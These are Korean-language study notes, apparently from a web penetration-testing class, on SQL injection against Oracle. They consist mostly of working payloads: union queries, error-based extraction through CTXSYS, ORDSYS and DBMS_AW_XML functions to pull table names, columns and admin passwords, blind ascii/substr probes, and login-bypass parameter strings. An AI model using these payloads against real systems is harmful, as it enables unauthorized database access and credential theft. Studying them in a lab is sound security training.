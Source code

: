 ```yaml
---
layout : post
title : 웹 모의해킹
---
```


SK -> AT&T SMS 보낼때 국가간 Protocol 변환시 인증정보 확인안함

도감청 가능, 가로채기해서 내가 받기도 가능. 여태 패치 안됨.

Spring, Samba, BlueBorne





보고서 - 개요, 문제풀이



SQL Injection

> Union
>
> Error Based
>
> Blind





select num, dong, juso from post where dong like %'p-dong'%

union select id, pw, name from member

oracle : all_tables, all_tab_columns(table_name, column_name)

영등포%', order by 4'

1. 컬럼개수 3
2. 컬럼타입
3. 테이블명
4. 컬럼명





Burpsuit 



pentest monkey

sql 명령어들



sql fiddle	



burp에서 % 인코딩을 해야되는지 안해도되는지 확인

암호화 하기전 salt를 더함



union

select rownum, table_name from user_tables where row = 2는 rownum이 가상이라 1을 지우고 다시 1부터 붙어영원히 2에 도달하지않음

select table_name from (select rownum as rnum, table_name from user_tables) where rnum = 2

count 10



errorbased

각 sql별 친절한 에러메세지를 주는 function이 있음

찾아서 넣자



ctxsys.drithsx.sn(user,(select user from dual where rownum=1))=1--

김세용' and ctxsys.drithsx.sn(1,(select user from dual where rownum=1)) = 1 --

### ordsys.ord_dicom.getmappingxpath()

김세용' and ordsys.ord_dicom.getmappingxpath((select user from dual)) = 1 --

김세용' and dbms_aw_xml.readawmetadata((select user from dual)) = 1 --

김세용' and ordsys.ord_dicom.getmappingxpath((select table_name from (select rownum as rnum, table_name from user_tables) where  rnum=1))=1--

**dbms_aw_xml.readawmetadata()**

김세용' and dbms_aw_xml.readawmetadata((select table_name from (select rownum as rnum, table_name from user_tables) where  rnum=1),null) is null--



테이블명 찾기

김세용' AND CTXSYS.DRITHSX.SN(user, (select table_name from (select rownum as rnum, table_name from user_tables) where  rnum=1))=1--



컬럼명 찾기

김세용' AND CTXSYS.DRITHSX.SN(user, (select column_name from (select rownum as rnum, column_name from user_tab_columns where table_name='LHSMEMBER3') where  rnum=1))=1--



데이터 찾기 - id

김세용' AND CTXSYS.DRITHSX.SN(user, (select id from (select rownum as rnum, id, pw from LHSMEMBER3) where  rnum=1))=1--



데이터 찾기 - pw

김세용' AND CTXSYS.DRITHSX.SN(user, (select pw from (select rownum as rnum, id, pw from LHSMEMBER3 where id='admin') where  rnum=1))=1--









### Blind SQL Injection

select zipcode, dong, addr from lhspost where dong like %[_________%' and (_________)' and 1=1--]%'

문정2%1' and ascii(substr((select table_name from (select rownum as rnum, table_name from user_tables) where rnum = 1), 1, 1)) = 75--









1. BSQL이 되는 정황증거를 개인카톡으로 제출하시오.

1.1. 전체 파라미터 제출

: id=admin&pw=1234

1.2. 서버측 로직 제출

: 왜 1.1이 실행되는지 소스코드(대략적인, 문법이 틀려도 됨)와 설명





1.1 전체 파라미터

id=1&pw=1 -> 로그인 성공

id=1' and 1=1--&pw=1 -> 로그인 성공

id=1' and 1=2--&pw=1 -> 로그인 실패



id=1' and ascii(substr((select table_name from (select rownum as rnum, table_name from user_tables) where rnum = 1), 1, 1)) = 76--&pw=1

이런식으로 id 부분에 Injection 가능합니다.



1.2. 서버측 로직 제출

select passwd from lhsmember3 where id = id입력값

if(passwd == 비밀번호입력값)

	로그인성공

else

	로그인 실패



이렇게 아이디에 해당하는 비밀번호만 가져와서

입력한 비밀번호와 비교하는 것 같습니다.



2번



1.

id=1') and 1=1--&pw=1 -> 로그인 성공

id=1') and 1=2--&pw=1 -> 로그인 실패

2.

select pw from from lhsmember3 where id='1'and ('1'='1') 



1.

id=1') and ('1'='1&pw=1 -> 로그인 성공

id=1') and ('1'='2&pw=2 -> 로그인 실패



select pw from lhsmember3 where (id='ID입력값')

select pw from lhsmember3 where (id=' 1' and '1'='1 ')



1.

sDate=20150102&eDate=20161231') and 1=1-- -> 게시글 잘 나옴

sDate=20150102&eDate=20161231') and 1=2-- -> 게시물 없음

select * from board where (date > 'sDate' and date < 'eDate')





select * from lhsboard where date between to_date('sDate', 'YYYYMMDD') and to_date('eDate', 'YYYYMMDD')

select * from lhsboard where date > to_date('sDate', 'YYYYMMDD') and date < to_date('eDate', 'YYYYMMDD')



1%') and ascii(substr((select table_name from (select rownum as rnum, table_name from user_tables) where rnum = 1), 1, 1)) = 75--



Select * from board where ('check1' like '%searchtext%') order by asc

parameter1 : select/*

parameter2 : */from

